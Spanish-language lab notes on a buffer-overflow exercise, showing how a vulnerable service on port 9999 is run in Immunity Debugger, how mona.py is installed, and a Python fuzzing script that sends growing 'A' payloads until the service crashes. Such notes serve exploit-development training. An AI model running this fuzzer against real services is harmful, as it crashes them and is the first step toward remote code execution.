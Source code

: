 Ejecutamos el programa en inmunity debugger y si volvemos a escanear con nmap podemos ver que abre el puerto 9999
![[Pasted image 20240710074224.png]]
![[Pasted image 20240710074243.png]]

Necesitaremos descargarnos el script de mona para poder hacer buffer overflow
```
https://github.com/corelan/mona/blob/master/mona.py
```
![[Pasted image 20240710074457.png]]

Y lo pegamos en la carpeta de `PyCommands` de Inmunity debugger 
```
C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
```
![[Pasted image 20240710074709.png]]

El siguiente paso será establecer un directorio de trabajo donde vamos a trabajar con el inmunity debugger, por lo que hay que ejecutar el siguiente comando:
```python
!mona config -set workingfolder C:\Users\wolf\Desktop\bof
```
![[Pasted image 20240710074955.png]]

# Script Fuzzing
El siguiente paso será utilizar un script de python para realizar el fuzzing para ir probando en qué punto se crashea el programa:
```python
#!/usr/bin/env python3
  
import socket, time, sys

ip = ""  
port = 9999
timeout = 1
prefix = ""
  
string = prefix + "A" * 100
  
while True:
   try:
     with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
       s.settimeout(timeout)
       s.connect((ip, port))
       s.recv(1024)
       print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
       s.send(bytes(string, "latin-1"))
       s.recv(1024)
   except:
     print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
     sys.exit(0)
   string += 100 * "A"
   time.sleep(1)
```
